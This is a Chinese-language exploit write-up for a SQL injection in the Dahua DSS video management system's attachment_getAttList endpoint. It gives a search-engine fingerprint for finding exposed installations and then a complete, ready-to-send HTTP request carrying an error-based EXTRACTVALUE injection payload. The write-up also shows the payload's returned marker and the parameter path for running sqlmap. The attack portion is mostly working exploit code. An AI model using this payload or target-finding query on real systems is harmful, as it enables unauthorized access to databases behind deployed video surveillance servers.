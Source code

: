 # 大华 DSS 视频管理系统attachment_getAttList存在SQL注入漏洞

# 一、漏洞简介
大华 DSS 视频管理系统attachment_getAttList存在SQL注入漏洞

# 二、影响版本
+ 大华 DSS 视频管理系统

# 三、资产测绘
+ hunter：`app.name=="Dahua 大华 DSS 视频管理系统"`

![1691867182224-1219c86f-cf8f-45b6-a1cf-8161c98567cc.png](./img/YEzgKXOoTrWvTvW9/1691867182224-1219c86f-cf8f-45b6-a1cf-8161c98567cc-455011.png)

+ 登录页面

![1691867201317-4728fc1e-bdf3-485b-a82a-67995f73e590.png](./img/YEzgKXOoTrWvTvW9/1691867201317-4728fc1e-bdf3-485b-a82a-67995f73e590-535720.png)

# 四、漏洞复现
```java
GET /portal/attachment_getAttList.action?bean.RecId=1%27)%20AND%20EXTRACTVALUE(8841,CONCAT(0x5c,0x716b6b6b71,(SELECT%20(ELT(8841=8841,1))),0x7178786271))%20AND%20(%27mYhO%27=%27mYhO&bean.TabName=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Connection: close
Content-Length: 345
Accept-Encoding: gzip
```

![1712506894859-ae95ce46-c10f-470e-b0c3-73ac9f6f6f0b.png](./img/YEzgKXOoTrWvTvW9/1712506894859-ae95ce46-c10f-470e-b0c3-73ac9f6f6f0b-091764.png)

```java
qkkkq1qxxbq
```

sqlmap

```java
/portal/attachment_getAttList.action?bean.RecId=1&bean.TabName=1
```

![1712506949280-220d14ff-c8ae-4bcc-a97b-988a8f0e5f4b.png](./img/YEzgKXOoTrWvTvW9/1712506949280-220d14ff-c8ae-4bcc-a97b-988a8f0e5f4b-184673.png)



> 更新: 2024-04-28 16:08:12  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fqfir04lszoxzfkb>